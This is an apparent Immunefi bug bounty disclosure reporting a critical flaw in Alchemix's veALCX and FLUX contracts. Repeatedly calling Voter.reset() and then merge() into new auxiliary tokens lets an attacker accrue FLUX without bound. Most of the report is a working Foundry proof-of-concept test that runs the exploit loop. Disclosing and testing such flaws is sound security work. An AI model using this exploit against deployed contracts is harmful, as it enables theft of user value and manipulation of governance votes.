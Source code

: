 
# Undound FLUX accrual through reset and merge

Submitted on Sun May 19 2024 23:17:59 GMT-0400 (Atlantic Standard Time) by @DuckAstronomer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31481

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Vulnerability Details
The attacker can accrue FLUX indefinitely by following a loop: first, they call `Voter.reset()` to accrue FLUX for the current veALCX, then transfer the balance from that veALCX to a new veALCX using `veALCX.merge(oldId, newId)`, followed by claiming FLUX for the new veALCX. This process can be repeated multiple times to keep accruing FLUX continuously.

FLUX can be accrued by calling `Voter.reset()` once in an epoch for the current tokenId.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L191

However, it's possible to transfer veALCX balance to a new tokeId by calling `veALCX.merge()`. This allows to claim FLUX one more time with `Voter.reset()`.

## Impact Details
Flux token allows to boost voting power. Unbounded Flux accrual allows to significantly change the voting results. 

        
## Proof of concept
## Proof of Concept
Poc scenario:
1. The attacker mints the main veALCX with 1000 BAL tokens.
2. The attacker mints 100 more auxiliary veALCX with 10 wei of BAL each.
3. The loop begins.
4. In the loop, the attacker calls `Voter.reset()` to accrue FLUX amount.
5. The attacker immediately transfers the balance from veALCX from step 3 to a yet unused auxiliary veALCX by calling `veALCX.merge(lastId, currentId)`.
6. Go back to step 3.

To run the PoC, place the code below in the `PoC.t.sol` file and execute the command: `forge test --mp src/test/PoC.t.sol --fork-url 'URL'`.

```
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract Poc is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    // Run as: forge test --mp src/test/Poc.t.sol --fork-url 'URL'
    function test_poc() public {
        address bad = address(1);

        uint256 NUMBER_ITER = 100;

        // The bad guy mints the main veALCX using 1000 BAL
        uint256 tokenId_bad = createVeAlcx(bad, 1000e18, MAXTIME, false);
        
        // The bad guy mints many auxiliary veALCX tokens using 10 wei of BAL
        uint256[] memory tokenIds = new uint256[](NUMBER_ITER);
        for (uint256 i; i < NUMBER_ITER; i++)
            tokenIds[i] = createVeAlcx(bad, 10, MAXTIME, false);

        hevm.startPrank(bad);

        // This is how much Flux the bad guy should accrue
        // without cheating.
        uint256 noCheating = veALCX.claimableFlux(tokenId_bad);

        // The bad guy accrues Flux in a loop
        // by calling Voter.reset() and then transferring balance to a new auxiliary veACLX by calling merge(last,current).
        uint256 lastId = tokenId_bad;
        for (uint256 i; i < NUMBER_ITER; i++) {
            uint256 currentId = tokenIds[i];

            uint256 beforeFlux = IERC20(flux).balanceOf(bad);

            // Accrue Flux when resetting
            // https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L191
            voter.reset(lastId);
            flux.claimFlux(lastId, veALCX.claimableFlux(lastId));

            uint256 afterFlux = IERC20(flux).balanceOf(bad);

            assertGt(afterFlux, beforeFlux);

            // Merge last->current, keep the wheel spinning
            veALCX.merge(lastId, currentId);

            lastId = currentId;
        }
        
        hevm.stopPrank();
        
        // The bad guy accrued after the attack.
        uint256 realFlux = IERC20(flux).balanceOf(bad);

        // The bad guy gets much more
        assertGe(realFlux, NUMBER_ITER*noCheating);
    }
}
```
